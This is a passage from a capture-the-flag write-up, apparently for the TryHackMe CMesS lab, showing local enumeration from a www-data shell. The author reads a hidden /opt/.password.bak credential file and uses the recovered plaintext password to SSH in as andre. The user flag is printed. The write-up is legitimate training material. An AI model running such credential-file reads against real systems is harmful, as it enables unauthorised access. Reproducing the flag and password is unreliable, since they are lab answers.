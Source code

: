 I tried this credentials for `andre` at ssh, but no luck, let's keep searching then, if we look at `/tmp` directory, we can find this:

```bash
www-data@cmess:/tmp$ ls -la
total 40
drwxrwxrwt  9 root     root     4096 Apr 28 12:34 .
drwxr-xr-x 22 root     root     4096 Feb  6  2020 ..
drwxrwxrwt  2 root     root     4096 Apr 28 12:04 .ICE-unix
drwxrwxrwt  2 root     root     4096 Apr 28 12:04 .Test-unix
drwxrwxrwt  2 root     root     4096 Apr 28 12:04 .X11-unix
drwxrwxrwt  2 root     root     4096 Apr 28 12:04 .XIM-unix
drwxrwxrwt  2 root     root     4096 Apr 28 12:04 .font-unix
drwxrwxrwt  2 root     root     4096 Apr 28 12:04 VMwareDnD
-rw-r--r--  1 root     root      161 Apr 28 12:34 andre_backup.tar.gz
prw-r--r--  1 www-data www-data    0 Apr 28 12:34 f
drwx------  3 root     root     4096 Apr 28 12:04 systemd-private-6033f99b25c2444da8095121db6b89ec-systemd-timesyncd.service-owkn4D
```

There is a `andre_backup.tar.gz` file, let's get it in our machine to check if it got some credentials in it:

![](cybersecurity/images/Pasted%2520image%252020250428143653.png)

We get a file named `note`:

```
head -n 30 note
Note to self.
Anything in here will be backed up!
```

Seems like there is a directory where things get backed up, let's use linpeas to check if its true:

![](cybersecurity/images/Pasted%2520image%252020250428150004.png)

There is a `password.bak` located at `/opt`, let's check it out:

```
www-data@cmess:/tmp$ cat /opt/.password.bak
andres backup password
UQfsdCB7aAP6
```

Let's switch to ssh:

```
andre:UQfsdCB7aAP6
```

![](cybersecurity/images/Pasted%2520image%252020250428151659.png)

```
andre@cmess:~$ cat user.txt
thm{c529b5d5d6ab6b430b7eb1903b2b5e1b}
```
